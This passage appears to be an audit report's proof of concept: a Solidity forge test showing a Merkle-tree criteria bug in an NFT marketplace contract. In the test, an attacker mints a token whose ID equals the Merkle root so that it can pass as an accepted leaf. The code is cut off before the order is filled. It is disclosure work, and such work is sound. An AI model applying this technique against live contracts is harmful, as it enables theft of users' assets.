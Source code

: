 Here's a `forge` test ([gist](https://gist.github.com/MrToph/ccf5ec112b481e70dbf275aa0a3a02d6)) that shows the issue for the situation mentioned in *Example*.

```solidity
contract BugMerkleTree is BaseOrderTest {
    struct Context {
        ConsiderationInterface consideration;
        bytes32 tokenCriteria;
        uint256 paymentAmount;
        address zone;
        bytes32 zoneHash;
        uint256 salt;
    }

    function hashHashes(bytes32 hash1, bytes32 hash2)
        internal
        returns (bytes32)
    {
        // see MerkleProof.verify
        bytes memory encoding;
        if (hash1 <= hash2) {
            encoding = abi.encodePacked(hash1, hash2);
        } else {
            encoding = abi.encodePacked(hash2, hash1);
        }
        return keccak256(encoding);
    }

    function testMerkleTreeBug() public resetTokenBalancesBetweenRuns {
        // Alice wants to buy NFT ID 1 or 2 for token1. compute merkle tree
        bytes32 leafLeft = bytes32(uint256(1));
        bytes32 leafRight = bytes32(uint256(2));
        bytes32 merkleRoot = hashHashes(leafLeft, leafRight);
        console.logBytes32(merkleRoot);

        Context memory context = Context(
            consideration,
            merkleRoot, /* tokenCriteria */
            1e18, /* paymentAmount */
            address(0), /* zone */
            bytes32(0), /* zoneHash */
            uint256(0) /* salt */
        );
        bytes32 conduitKey = bytes32(0);

        token1.mint(address(alice), context.paymentAmount);
        // @audit assume there's a token where anyone can acquire IDs. smaller IDs are more valuable
        // we acquire the merkle root ID
        test721_1.mint(address(this), uint256(merkleRoot));

        _configureERC20OfferItem(
            // start, end
            context.paymentAmount, context.paymentAmount
        );
        _configureConsiderationItem(
            ItemType.ERC721_WITH_CRITERIA,
            address(test721_1),
            // @audit set merkle root for NFTs we want to accept
            uint256(context.tokenCriteria), /* identifierOrCriteria */
            1,
            1,
            alice
        );
```
